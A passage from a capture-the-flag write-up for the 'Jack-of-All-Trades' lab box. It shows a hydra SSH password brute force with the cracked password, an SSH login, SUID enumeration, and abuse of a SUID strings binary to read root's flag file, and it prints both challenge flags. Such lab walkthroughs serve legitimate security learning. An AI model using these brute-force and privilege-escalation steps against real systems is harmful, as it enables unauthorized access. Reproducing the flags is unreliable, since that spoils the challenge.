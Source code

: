 - Right now, just save this list in you Kali and brute force your way into SSH.

  ```
  hydra -l jack -P pwlist.txt ssh://10.10.153.24:80
  [80][ssh] host: 10.10.153.24   login: jack   password: ITMJpGGIqg1jn?>@
  1 of 1 target successfully completed, 1 valid password found
  ```
  
- Now login with SSH so you can get stable shell, go to `/home/jack` and get the user flag. The thing is flag is hidden in the picture lol. Download it to your Kali so you can view the flag.

  ```
  ssh jack@10.10.153.24 -p 80
  jack@10.10.153.24's password: 
  jack@jack-of-all-trades:~$ whoami
  jack
  jack@jack-of-all-trades:~$ cd /home/jack
  jack@jack-of-all-trades:~$ ls
  user.jpg
  ```

- User flag: `securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}`. Moving to root now.

---

## 👑 Root Privilege Escalation

- Final part of challenge is getting the root flag. I was digging around and enumerating and this is what worked perfectly.

  ```
  jack@jack-of-all-trades:~$ find / -type f -perm -4000 2>/dev/null
  /usr/lib/openssh/ssh-keysign
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/pt_chown
  /usr/bin/chsh
  /usr/bin/at
  /usr/bin/chfn
  /usr/bin/newgrp
  /usr/bin/strings
  /usr/bin/sudo
  /usr/bin/passwd
  /usr/bin/gpasswd
  /usr/bin/procmail
  /usr/sbin/exim4
  /bin/mount
  /bin/umount
  /bin/su
  ```
  
- Strings looks very phishy, which means I can read any file with it. On GTFOBins I found this `LFILE=file_to_read ; sudo strings "$LFILE"` but when I ran it with sudo I got denied again as `sudo -l` already told me. So i just ran it without sudo and got the flag.

  ```
  jack@jack-of-all-trades:~$ strings /root/root.txt
  ToDo:
  1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
  2.Make T-Rex model!
  3.Meet up with Johny for a pint or two
  4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
  5.Remember to finish that contract for Lisa.
  6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
  jack@jack-of-all-trades:~$ 
  ```
  
